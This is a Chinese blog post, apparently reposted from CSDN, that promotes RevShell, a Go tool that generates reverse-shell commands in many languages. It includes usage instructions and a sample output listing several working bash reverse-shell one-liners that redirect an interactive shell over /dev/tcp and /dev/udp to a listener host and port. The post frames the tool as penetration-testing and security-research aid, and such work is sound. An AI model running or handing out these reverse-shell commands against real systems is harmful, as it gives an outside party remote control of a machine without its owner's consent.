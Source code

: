 # 020-RevShell：一款好用的生成反弹Shell命令的工具




## RevShell



## 工具简介
RevShell是一个基于Go语言的反弹Shell命令生成工具，旨在帮助安全研究人员和渗透测试人员在需要与目标主机建立反向连接时快速生成相应的Shell代码。

目前支持的类型:
bash、sh、nc、ruby、php、python、rcat、perl、socat、node、telnet、zsh、lua、golang、vlang、awk、crystal。

除了支持多种Shell类型外，revshell还可以运行在多个操作系统平台上，包括Mac、Linux和Windows。这使得用户可以在不同的环境中使用revshell来生成适用于目标主机操作系统的反弹Shell代码，提高了工具的灵活性和适用性。

项目地址：https://github.com/BetterDefender/revshell

## 安装方式

- 自行编译运行

```shell
$ go build revshell.go
```

- 直接下载项目Releases中编译好的工具

https://github.com/BetterDefender/revshell/releases

![image-20230814142045336](/resource/RevShell.assets/image-20230814142045336.png)

## 使用方法

```shell
$ ./revshell [IPADDR] [PORT] [LANGUAGE]
```

## 使用示例

```shell
$ ./revshell 192.168.1.1 2222 bash
```

### MacOS

```shell
$ ./revshell 192.168.1.1 2222 bash
 _____               _____ _          _ _    _____  
|  __ \             / ____| |        | | |  / ____|
| |__) |_____   __ | (___ | |__   ___| | | | |  __  ___ _ __ 
|  _  // _ \ \ / /  \___ \| &#39;_ \ / _ \ | | | | |_ |/ _ \ &#39;_ \
| | \ \  __/\ V /   ____) | | | |  __/ | | | |__| |  __/ | | |
|_|  \_\___| \_/   |_____/|_| |_|\___|_|_|  \_____|\___|_| |_|

                       | 💻 Author: Gh0stX | 🍎 Version: 1.0 |

------------------------------------------
Bash -i:
bash -i &gt;&amp; /dev/tcp/192.168.1.1/2222 0&gt;&amp;1
/bin/bash -i &gt;&amp; /dev/tcp/192.168.1.1/2222 0&gt;&amp;1
------------------------------------------
Bash 196:
0&lt;&amp;196;exec 196&lt;&gt;/dev/tcp/192.168.1.1/2222; bash &lt;&amp;196 &gt;&amp;196 2&gt;&amp;196
0&lt;&amp;196;exec 196&lt;&gt;/dev/tcp/192.168.1.1/2222; /bin/bash &lt;&amp;196 &gt;&amp;196 2&gt;&amp;196
------------------------------------------
Bash read line:
exec 5&lt;&gt;/dev/tcp/192.168.1.1/2222;cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done
------------------------------------------
Bash 5:
bash -i 5&lt;&gt; /dev/tcp/192.168.1.1/2222 0&lt;&amp;5 1&gt;&amp;5 2&gt;&amp;5
/bin/bash -i 5&lt;&gt; /dev/tcp/192.168.1.1/2222 0&lt;&amp;5 1&gt;&amp;5 2&gt;&amp;5
------------------------------------------
Bash UDP:
bash -i &gt;&amp; /dev/udp/192.168.1.1/2222 0&gt;&amp;1
/bin/bash -i &gt;&amp; /dev/udp/192.168.1.1/2222 0&gt;&amp;1
```

![image](/resource/RevShell.assets/259199615-c5c4ea25-9191-4b5c-ab20-b3a86a604de3.png)

### Windows

![image](/resource/RevShell.assets/259209244-59f7ef07-01da-4271-87c7-fa286c143c94.png)

### Linux

![image](/resource/RevShell.assets/259210130-e29555ee-16eb-4a03-96dc-999341d174f3.png)

## 总结

使用RevShell，您可以轻松生成所需的反弹Shell代码，从而在渗透测试、漏洞利用或安全评估等任务中更加高效地与目标主机进行交互和控制。

————————————————

版权声明：本文为CSDN博主「Gh0stX」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/weixin_42575797/article/details/132188010


---

> 作者: Gh0stX  
> URL: https://www.bthoughts.top/posts/revshell/  

